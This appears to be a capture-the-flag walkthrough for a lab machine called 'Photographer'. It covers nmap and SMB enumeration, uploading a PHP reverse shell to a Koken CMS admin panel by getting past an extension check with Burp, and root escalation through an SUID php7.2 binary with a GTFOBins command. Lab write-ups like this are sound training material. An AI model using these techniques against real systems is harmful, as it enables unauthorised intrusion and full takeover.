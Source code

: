 # Photographer
## Recon:
### Scanning
* *  *
Finding ip address of the machine

`nmap -sn -oA host-discovery 192.168.10.*` 

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 192.168.10.51`
![](1.png)

`smbclient -L 192.168.10.51`

`smbclient \\\\192.168.10.51\\sambashare`
* * * 
### Enumeration

![](2.png)

`http://192.168.10.51:8000/`

this webpage is built with *koken cms*

so we search exploit for it

![](3.png)
 * *  *

### Gaining Access

`/usr/share/webshells/php/php-reverse-shell.php`

![](4.png)

`reverse-shell-php.php` rename with `.png` extension and uploaded to `http://192.168.10.51:8000/admin`

then start the burp proxy interceptoor. then remove .png extension from ‘name’ and 'filename'

once you upload the file then you get the address of the uploaded file in the right section SITE > Link > `http://192.168.10.51:8000/content/php-reverse-shell-2/`

![](5.png)

![](6.png)

`python -c "import pty;pty.spawn('/bin/bash')"`

user flag is here..!!!

![](7.png)

searching for SUID-GUID executables. 
here we get the *php*

![](8.png)

we search **php7.2** on **GTFOBins**
`/usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"`

here we get the root flag
![](9.png)